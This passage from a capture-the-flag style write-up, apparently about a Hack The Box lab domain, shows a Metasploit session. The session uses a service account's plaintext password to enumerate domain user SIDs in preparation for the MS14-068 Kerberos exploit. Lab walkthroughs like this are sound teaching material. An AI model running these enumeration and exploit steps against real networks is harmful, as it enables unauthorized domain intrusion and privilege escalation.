 ## MS14-068

In order to run MS14-068 we need the SUID of our user. We enumerate them using
metasploit. Our user SID is `S-1-5-21-3072663084-364016917-1341370565-1147` (domain
SID-User RID).

    :::text
    msf5 auxiliary(admin/kerberos/ms14_068_kerberos_checksum) > use auxiliary/scanner/smb/smb_lookupsid
    msf5 auxiliary(scanner/smb/smb_lookupsid) > show options

    Module options (auxiliary/scanner/smb/smb_lookupsid):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      MaxRID     4000             no        Maximum RID to check
      MinRID     500              no        Starting RID to check
      RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      SMBDomain  .                no        The Windows domain to use for authentication
      SMBPass                     no        The password for the specified username
      SMBUser                     no        The username to authenticate as
      THREADS    1                yes       The number of concurrent threads


    Auxiliary action:

      Name   Description
      ----   -----------
      LOCAL  Enumerate local accounts


    msf5 auxiliary(scanner/smb/smb_lookupsid) > set RHOSTS 10.10.10.161
    RHOSTS => 10.10.10.161
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBDomain HTB.LOCAL
    SMBDomain => HTB.LOCAL
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBUser svc-alfresco
    SMBUser => svc-alfresco
    msf5 auxiliary(scanner/smb/smb_lookupsid) > set SMBPass s3rvice
    SMBPass => s3rvice
    msf5 auxiliary(scanner/smb/smb_lookupsid) > run

    [*] 10.10.10.161:445      - PIPE(LSARPC) LOCAL(HTB - 5-21-3072663084-364016917-1341370565) DOMAIN(HTB - 5-21-3072663084-364016917-1341370565)
    [*] 10.10.10.161:445      - USER=Administrator RID=500
    <SNIP>
    [*] 10.10.10.161:445      - USER=lucinda RID=1146
    [*] 10.10.10.161:445      - USER=svc-alfresco RID=1147
    [*] 10.10.10.161:445      - GROUP=Service Accounts RID=1148
    [*] 10.10.10.161:445      - GROUP=Privileged IT Accounts RID=1149
    [*] 10.10.10.161:445      - USER=andy RID=1150
    [*] 10.10.10.161:445      - USER=mark RID=1151
    [*] 10.10.10.161:445      - USER=santi RID=1152

We can also try to get Users SPNs
